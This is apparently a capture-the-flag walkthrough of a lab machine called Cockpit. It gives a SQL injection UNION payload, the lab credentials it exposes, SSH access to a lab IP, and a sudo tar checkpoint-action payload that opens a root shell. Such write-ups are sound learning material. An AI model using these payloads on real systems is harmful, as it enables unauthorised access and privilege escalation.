 # Cockpit

We start off enumeration with nmap and see this:

<figure><img src="../../../.gitbook/assets/image (253).png" alt=""><figcaption></figcaption></figure>

We quickly see a potenital SQLI and with this payload:

```
admin' UNION SELECT 1, 2,3,4,5 FROM information_schema.tables WHERE table_schema=database()#
```

We get access to this

<figure><img src="../../../.gitbook/assets/image (254).png" alt=""><figcaption></figcaption></figure>

And get those credentials:

```
james  canttouchhhthiss@455152
cameron thisscanttbetouchedd@455152
```

The nmap revealed this page and we can now connect:

<figure><img src="../../../.gitbook/assets/image (255).png" alt=""><figcaption></figcaption></figure>

We can add public keys for out user

<figure><img src="../../../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

to generate my ssh key:

```
ssh-keygen -t rsa -b 4096 -f my_ssh_key
```

and to connect:

```
ssh -i my_ssh_key james@192.168.145.10
```

Then we sudo -l and see this:

<figure><img src="../../../.gitbook/assets/image (258).png" alt=""><figcaption></figcaption></figure>

this gtfobins helps us:

{% embed url="https://gtfobins.github.io/gtfobins/tar/#sudo" %}

and the final payload is:

```
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

<figure><img src="../../../.gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>
